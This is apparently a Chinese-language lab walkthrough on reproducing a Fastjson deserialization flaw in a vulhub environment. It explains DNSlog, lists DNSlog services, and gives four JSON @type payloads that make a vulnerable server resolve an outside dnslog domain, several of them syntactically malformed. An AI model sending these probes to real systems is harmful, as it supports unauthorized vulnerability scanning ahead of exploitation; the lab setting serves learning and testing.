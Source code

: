 ![image-20240923163741052](https://image.201068.xyz/assets/36.漏洞复现/image-20240923163741052.png)

## 2.vulhub靶场启动fastjson场景

### 访问地址

http://192.168.70.14:8090

![image-20240923163845962](https://image.201068.xyz/assets/36.漏洞复现/image-20240923163845962.png)

## 3.可以用dnslog来测试是否有漏洞 

### 1.dnslog原理 

DNSlog就是储存在DNS上的域名相关的信息,它记录着你对域名或者IP的访问信息,也就是类似于日志文件。

首先了解一下多级域名的概念，我们知道因特网采用树状结构命名方法，按组织结构划分域是一个名字空间中一个被管理的划分，域可划分为子域，

子域再可被划分为多级域名称为一级域名，二级域名，三级域名，

从一个域名地址来从右到左依次是顶级域名，二级域名，三级域名,

例如 gaobai.kxsy.com,通俗的说就是我有个域名kxsy.work，

我将域名设置对应的ip 2.2.2.2 上，这样当我向dns服务器发起kxsy.work的解析请求时，

DNSlog中会记录下他给kxsy.work解析，解析值为2.2.2.2，而我们这个解析的记录的值就是我们要利用的地方,这个过程被记录下来就是DNSlog。

### 2.在线的dnslog平台

   http://www.dnslog.cn

   http://ceye.io

   http://dnslog.pw/login

### 3.利用dnslog测试是否有漏洞

> fantasycat.dnslog.pw

```python
{"a":{"@type":"java.net.Inet6Address","val":"fantasycat.dnslog.pw"}}

{"a":{"@type":"java.net.InetSocketAddress"{"address":,"val":"fantasycat.dnslog.pw"}}}

{"a":{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"fantasycat.dnslog.pw"}}""}}

{"a":{"@type":"java.net.URL","val":"fantasycat.dnslog.pw"}}
```

#### burp抓包构造

![image-20240923164609267](https://image.201068.xyz/assets/36.漏洞复现/image-20240923164609267.png)
